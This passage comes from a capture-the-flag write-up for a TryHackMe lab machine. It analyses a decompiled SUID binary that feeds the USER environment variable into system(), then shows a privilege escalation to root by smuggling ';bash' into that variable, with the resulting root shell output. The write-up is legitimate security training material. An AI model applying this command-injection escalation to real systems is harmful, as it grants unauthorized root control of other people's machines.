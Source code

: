```c
      puts("Group updated");
      setuid(_Var1);
      system("newgrp developer");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

**As you can see, this binary will:**

- If UID is less than 1000, then we need to be a real user.
    - Otherwise, execute command `groups | grep developer`. If `developer` exist, then return `You are already a developer.`
    - Otherwise, **`__src` = environment varible `USER`, enable SUID stick bit, then execute command `usermod -G developer <USER>`**

**Armed with above information, we can exploit OS command injection:**
```
$ export USER="$USER;bash"
```

**Then execute `/bin/authenticate`:**
```
$ /bin/authenticate

root@wwbuddy:~# whoami;hostname;id;ip a
root
wwbuddy
uid=0(root) gid=1002(jenny) groups=1002(jenny)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:a7:ab:83:83:c7 brd ff:ff:ff:ff:ff:ff
    inet 10.10.94.193/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3497sec preferred_lft 3497sec
    inet6 fe80::a7:abff:fe83:83c7/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**root.txt:**
```
root@wwbuddy:~# cat /root/root.txt
THM{Redacted}
```
